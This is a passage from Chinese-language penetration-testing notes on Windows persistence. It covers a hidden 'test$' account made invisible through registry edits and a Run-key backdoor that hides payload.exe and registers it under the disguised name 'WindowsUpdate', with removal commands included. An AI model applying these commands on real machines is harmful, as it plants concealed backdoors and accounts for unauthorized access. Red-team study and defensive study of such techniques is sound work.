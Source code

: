 将隐藏账号的F键的值替换成adminstrator的F键的值

删除之前创建的隐藏账号：
```
net user test$ /del
```

双击执行修改的注册表文件,和导出的 test$

此时 test$ 用户已经加入注册表中，但是在本地用户和组中找不到
```
net user test$
```

如果要删除,必须要去注册表删账号相应的键值

---

## MSF权限维持

内容参见 [metasploit 笔记](../../工具/Metasploit.md#权限维持) 权限维持部分

---

## 权限维持技巧

**相关文章**
- [内网渗透-权限维持](http://rtshield.top/2019/09/16/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/)

**注册表后门**
```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```
原理就是在注册表的启动项下，新建一个键值对，键可变，值为后门程序的路径

1. 上传后门程序

2. 隐藏文件
    ```
    attrib "C:\Windows\Temp\payload.exe" +h +s
    ```

3. 通过注册表加入启动项
    ```
    reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /t REG_SZ /d "C:\Windows\Temp\payload.exe" /f
    ```
    `/v` 后面为键的名称，`/t` 为键的类型，`/d` 为该键具体的值，`/f` 意为强制覆盖现有项

- 清除后门
    ```
    reg delete HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /f
    ```
    删除注册表下对应的键值

    ```
    del C:\Windows\Temp\payload.exe
    ```
    清除后门程序

